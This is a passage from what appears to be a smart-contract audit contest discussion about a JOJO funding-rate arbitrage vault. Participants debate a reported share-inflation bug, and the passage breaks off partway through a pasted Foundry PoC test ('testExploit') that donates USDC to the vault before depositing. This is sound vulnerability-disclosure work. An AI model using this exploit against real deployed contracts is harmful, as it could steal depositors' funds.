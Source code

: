 @Czar102 will leave the decision up to you now. 

**JoscelynFarr**

Hey @detectiveking123 

Could you provide a PoC with the latest codebase? Thank you so much.

**detectiveking123**

@JoscelynFarr Sure, give me 1-2 days of time since it's a weekday. It should look pretty similar to the PoC in #57 but I'll have to modify it a bit. 

**IAm0x52**

Yeah I'd like to second that request. I cannot get the repeated deposit and withdrawal working on the new code (or on the old code either). In order to get 2 shares of earnUSDC you have to deposit 2 USDC to get 2 EarnUSDC. Then when I withdraw 1 JUSD + 1 wei it pays 2 USDC but now the attackers EarnUSDC is also 0. So I am unable to get any additional USDC out of the vault. I see how your POC works as the primary deposit but I cannot get the repeated deposits and withdrawals to work. Additionally that only seems to work a single time per account, as further withdrawals revert with the message "lockedEarnUSDCAmount is bigger than earnUSDCBalance"

**detectiveking123**

@IAm0x52 you're not supposed to get additional USDC out of the vault. The profit is in your JOJODealer credit (reread the code a bit if you want to understand why).

See this line of the PoC:

```
        (,uint secondaryCredit,,,) = jojoDealer.getCreditOf(alice);
        console.log(secondaryCredit);
```

I will look at this further first thing after work tomorrow. 

**detectiveking123**

Also @IAm0x52 yes optimally you should use a new EOA to do each deposit/withdraw iteration

**detectiveking123**

@IAm0x52 @JoscelynFarr 

I succeeded with creating the PoC. For your convenience, I just forked the production Github repo and added my PoC there. 

Please run `forge test --match-test "testExploit" -vv`

Link: https://github.com/detectiveking123/smart-contract-EVM

I will also post the PoC script here for other people's convenience, though it will not work without some of the additional setup:

```
    function testExploit() public {
        jusd.mint(address(fundingRateArbitrage), 50000e6);
        // net value starts out at 0 :)
        console.log("Initial net value");
        console.log(fundingRateArbitrage.getNetValue());

        vm.startPrank(Owner);
        fundingRateArbitrage.setMaxNetValue(10000000e6);
        fundingRateArbitrage.setDefaultQuota(10000000e6);
        vm.stopPrank();

        initAlice();
        // Alice transfers first
        USDC.transfer(address(fundingRateArbitrage), 1000e6);
        // Alice deposits in
        fundingRateArbitrage.deposit(1000e6);
        // (Alice can feel free to deposit multiple times after this if
        // she wants to mitigate the amount she risks losing up front,
```